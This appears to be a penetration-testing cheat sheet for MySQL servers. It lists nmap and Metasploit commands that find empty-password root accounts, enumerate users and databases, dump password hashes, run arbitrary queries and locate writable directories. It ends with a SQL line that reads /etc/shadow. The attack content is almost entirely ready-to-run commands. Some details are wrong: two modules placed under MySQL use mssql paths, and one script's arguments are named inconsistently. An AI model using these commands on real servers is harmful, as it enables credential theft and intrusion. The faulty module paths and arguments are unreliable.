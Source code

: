
### Using `nmap` to enumerate accounts with NULL password

```
nmap -p 3306 -sV <target-IP> --script mysql-empty-password
```

### Using `nmap` to enumerate SQL server info

```
nmap -p 3306 -sV <target-ip> --script mysql-info
```

### Using `nmap` to enumerate users

```
nmap -p 3306 -sV <target-ip> --script mysql-users --script-args="mysqluser='root',mysqlpass=''"
```

### Using `nmap` to enumerate databases

```
nmap -p 3306 -sV <target-ip> --script mysql-databases --script-args="mysqluser='root',mysqlpass=''"
```

### Using `nmap` to enumerate variables

- Using the `mysql-variables` script to retrieve configuration and system information from the MySQL server:
```
nmap -p 3306 -sV <target-ip> --script mysql-variables --script-args="mysqluser='root',mysqlpass=''"
```

### Using `nmap` to perform audit on the SQL server

```
nmap -p 3306 -sV <target-ip> --script mysql-audit --script-args="mysqlaudit.username='root',mysql-audit.pass='',mysql-audit.filename='/usr/share/nmap/nselib/data/mysql-cis.audit'"
```

- The `mysql-audit` script in Nmap is designed to perform security audits on MySQL database servers by checking for compliance with specific security configurations, guidelines, or benchmarks.

### Using `nmap` to dump hashes

- Dumps the password hashes from an MySQL server in a format suitable for cracking by tools such as John the Ripper.
```
nmap -p 3306 <ip> --script mysql-dump-hashes --script-args='username=root,password=secret'
```

### Using `nmap` to run MySQL queries

```
nmap -p 3306 <ip> --script mysql-query --script-args="query='select count(*) from books.authors;',username='root',password='secret'"
```

### Using `metasploit` to enumerate directories
- Metasploit module to enumerate ***readable*** directories in the system using MySQL:
```
use auxiliary/scanner/mysql/mysql_file_enum
```

- Metasploit module to enumerate ***writable*** directories in the system using MySQL:
```
use auxiliary/scanner/mysql/mysql_writable_dirs
```

- **WordList path** - /usr/share/metasploit-framework/data/wordlists/directory.txt
- Set verbosity to `false` to avoid getting spammed with too many messages. 
- To show more options use command `advanced`
- Instead of using `set <RHOSTS>`, we can use `setg <RHOSTS>` to set it as a global variable, so that we don't have to set it again when we switch to another module.

**How does this module work ?**

This Metasploit module doesn't enumerate directories in the traditional sense but rather checks if MySQL has write access to specific directories by executing SQL queries that attempt to create temporary files in those directories. If the MySQL server has the necessary permissions and access rights, it will allow the creation of files in those directories.

### Using `metasploit` to dump schema

```
use auxiliary/scanner/mssql/mssql_schemadump
```

- A schema in a database is a container for database objects like tables, views, procedures, and functions.
### Using `sql_hashdump` module

- Metasploit module to collect the hashes of different users who have access to the MySQL server from the user account information stored in the `mysql.user` table:
```
use auxiliary/scanner/mssql/sql_hashdump
```

### Using `mysql` to access sensitive files

- `mysql` command to access `/etc/shadow` file.
```
select load_file("/etc/shadow")
```

- *The `/etc/shadow` file keeps records about encrypted users' passwords, as well as other passwords related information.
